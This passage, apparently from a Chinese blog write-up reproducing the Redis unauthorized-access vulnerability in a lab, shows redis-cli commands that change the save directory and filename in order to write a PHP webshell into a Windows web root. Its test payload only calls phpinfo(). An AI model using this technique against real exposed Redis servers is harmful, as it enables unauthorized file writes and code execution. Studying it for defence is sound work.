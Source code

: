 **SAVE**：将当前内存中的数据保存到指定的文件中

```bash
save
```

前面**phpinfo**获取web路径`c:/phpstudy/phpstudy_pro/WWW/`，开搞

后面的端口参数可以省略的如果是默认的6379

```bash
./redis-cli.exe -h 192.168.237.136 -p 6379
config set dir "c:/phpstudy/phpstudy_pro/WWW/"
config set dbfilename "1.php"
set shell "<?php phpinfo();?>"
save
```

成功写入webshell，有点脏数据，不影响

![6](/medias/redis未授权访问控制漏洞/6.png)

## linux环境复现准备

